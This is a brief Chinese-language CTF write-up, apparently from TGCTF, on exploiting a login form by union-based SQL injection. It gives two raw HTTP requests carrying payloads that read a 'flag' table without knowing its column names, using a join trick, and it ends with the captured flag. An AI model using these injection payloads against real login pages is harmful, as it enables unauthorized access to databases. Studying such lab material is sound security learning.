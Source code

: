 尝试联合注入，set-cookie处有回显

但是有长度限制，在读表名处卡了很久

后面直接猜表名是flag，直接打无列名

https://www.cnblogs.com/q1stop/p/18024992

利用join打无列名

```bash
POST /login HTTP/1.1
Host: 124.71.147.99:9045
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Cache-Control: max-age=0
Origin: http://124.71.147.99:9045
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Referer: http://124.71.147.99:9045/login
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 25

username=admin\&password={{urlenc(union select * from (select * from flag a join flag b)c#)}}
```

![img](../assets/1744970124056-16.png)

```bash
POST /login HTTP/1.1
Host: 124.71.147.99:9045
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Cache-Control: max-age=0
Origin: http://124.71.147.99:9045
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Referer: http://124.71.147.99:9045/login
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 25

username=admin\&password={{urlenc(union select value,2 from flag#)}}
```

![img](../assets/1744970124056-17.png)

```bash
TGCTF{ac4ca16f-f1508c-000342}
```
